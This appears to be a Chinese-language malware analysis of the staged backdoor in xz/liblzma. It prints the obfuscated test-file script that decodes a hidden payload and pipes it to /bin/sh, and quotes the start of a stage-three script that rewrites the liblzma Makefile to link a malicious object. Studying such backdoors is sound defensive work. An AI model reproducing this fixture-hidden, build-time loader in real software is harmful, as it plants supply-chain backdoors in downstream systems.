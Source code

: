 ```
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
```  
  
bad-3-corrupt_lzma2.sh脚本的内容进行了一定程度的混淆，对其进行分解，可获得以下步骤。  
```
# 1. 解压./tests/files/good-large_compressed.lzma文件
xz -dc $srcdir/tests/files/good-large_compressed.lzma
# 2. 对good-large_compressed.lzma文件解压后的文件进行处理
eval $i
# 3. 只获取第2步结果的末尾31265字节数据
tail -c +31265
# 4. 对第3步结果中的一些数据进行替换
tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377"
# 5. 解压第4步获得的正确的压缩文件
xz -F raw --lzma1 -dc
# 6. 从第5步的输出中获得阶段三的脚本并执行。
/bin/sh
```  
  
第2步对good-large_compressed.lzma文件解压后的文件进行处理，首先通过“head -c +1024 >/dev/null”命令将该文件的前1024字节数据丢弃，然后通过“head -c +2048”命令将该文件前1024字节之后的2048字节数据输出到标准输出，以此模式，不断循环，直到将所有无用数据剔除，只留下有效的数据，以待第3步继续处理。所以，good-large_compressed.lzma文件解压后的文件中的数据是无用数据与有用数据交叉分布的。  
  
由上可知，bad-3-corrupt_lzma2.sh脚本用于解压good-large_compressed.lzma文件，然后对解压后的文件进行处理，获得另一个压缩包。对其解压后，获得阶段三执行的脚本（命名为good-large_compressed.sh）。  
  
可以对bad-3-corrupt_lzma2.sh文件做一些修改，以独立获得good-large_compressed.sh。  
```
# 将good-large_compressed.lzma于此脚本放于同一目录
xz -dc good-large_compressed.lzma
# 将标准输出重定向到good-large_compressed.sh文件中
xz -F raw --lzma1 -dc 1>good-large_compressed.sh
```  
  
**阶段三**  
  
阶段三执行的good-large_compressed.sh脚本会执行两次，第一次用来修改/src/liblzma文件夹下的Makefile，在源代码根目录下，使用阶段二的bad-3-corrupt_lzma2.sh脚本对good-large_compressed.lzma文件进行处理并执行。第一次执行good-large_compressed.sh脚本时，会对/src/liblzma文件夹下的Makefile进行修改，其中包含第二次执行good-large_compressed.sh脚本的命令。第二次用来从good-large_compressed.lzma文件中提取出恶意的liblzma_la-crc64-fast.o目标文件，并对/src/liblzma/check/文件夹下的crc64_fast.c和crc32_fast.c文件的内容做一些修改，然后用恶意的liblzma_la-crc64-fast.o文件替换原始的liblzma_la-crc64_fast.o文件，继续完成接下来的编译链接过程，最终生成恶意的liblzma.so文件。  
  
第一次执行的good-large_compressed.sh脚本中的主要代码如下所示。  
```
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" $P\""
O="^pic_flag=\" -fPIC -DPIC\"$"
R="is_arch_extension_supported"
x="__get_cpuid("
p="good-large_compressed.lzma"
U="bad-3-corrupt_lzma2.xz"
eval $zrKcVq
# 第一次执行此脚本时，是在源代码根目录下执行的。
if test -f config.status; then
    ......
    eval `grep ^build=\'x86_64 config.status`
    eval `grep ^enable_shared=\'yes\' config.status`
```